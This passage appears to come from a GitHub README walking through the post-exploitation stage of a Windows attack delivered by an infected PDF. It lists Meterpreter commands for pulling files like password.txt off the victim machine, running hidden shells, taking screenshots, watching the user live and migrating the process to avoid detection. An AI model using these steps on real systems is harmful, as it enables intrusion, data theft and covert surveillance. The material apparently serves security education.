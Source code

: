 
## Result of the exploitation

Then, we can remotely access to the victim’s machine and then further performing more malicious behaviours that we wanted in the meterpreter session.

### To show a list of things that we can do
```
help
```
### List current directory 
``` 
pwd
```
### List the file on that directory
```
ls
```
### Download folder or file from victim machine
For example, there's a file named `password.txt`, we can issue `download password.txt` command
```
download [folder name | filename with extension]
```
### Create file on victim machine
Of course, we can write malicious script (implanting backdoor) to keep us connecting to the Windows machine if we're really evil! :skull:
```
   # Boot command prompt at background
   execute -f cmd.exe -H -i
   
   # Create file on Windows
   echo "You have been hacked" > hack.txt    
```
### Interact with Windows 
```
   #open the txt file we have just created
   hack.txt

   # Take screenshot
   screenshot
   
   # Watch the remote user in real time
   screenshare
```
### Additional
However, the attacker can reduce the suspicion by migrating the meterpreter process to a different one by using the migrate module in the meterpreter session.
```
meterpreter> run post/windows/manage/migrate
```
Here, it will automatically spawn a new process in the victim’s machine to migrate itself to. The victim would then be able to delete the infected PDF file, completely unaware that the process has already went elsewhere.


[//]: # (https://shields.io/badge/Chan-%20Jia%20Liang-green?style=for-the-badge&logo=CodeIgniter&logoColor=orange)
[//]: # (https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)